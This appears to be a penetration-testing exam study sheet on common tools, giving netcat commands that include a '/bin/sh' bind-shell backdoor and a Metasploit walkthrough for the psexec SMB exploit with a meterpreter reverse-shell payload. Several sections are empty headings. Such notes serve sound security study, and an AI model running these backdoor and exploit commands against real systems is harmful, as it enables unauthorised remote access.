 # Common Tools

## Exam Outcome

Demonstrate competence with common tools including netcat, SSH, Ettercap, p0f, etc...

### netcat

Setting up a Listener:

```
nc -l -p [port]
nc -l -p [2222]
```

Connecting to the Listener:

```
nc [ip_of_listener] [port]
nc 10.10.75.75 2222
```

Create Backdoor on Linux:

```
nc -l [port] -e /bin/sh
nc -l 7777 -e /bin/sh
```

Connect to the backdoor:

```
nc.exe [ip_of_listener] [port]
nc.exe 10.10.75.75 7777
```

### SSH

### Ettercap

### p0f

### Metasploit

Starting Metasploit:

```
msfconsole
```

Listing Exploits:

```
show exploits
```

Searching Exploits:

```
search type:exploit psexec
```

Acquiring Info on an Exploit:

```
info exploit/windows/smb/psexec
```

Selecting an Exploit to Use:

```
use exploit/windows/smb/psexec
```

Configuring Exploit Settings:

```
set PAYLOAD windows/meterpreter/reverse_tcp
```

Showing Options:

```
show options
```

Configuring Variables:

```
set RHOST [Target IP]
set SMBUser [username]
set SMBPass [password]
set LHOST [source/attacker IP]
```

Launching Exploit:

```
exploit
```

Backgrounding a Session:

```
background
```

Listing Sessions:

```
sessions -l
```

```
sessions -i [session #]
```





### etc...


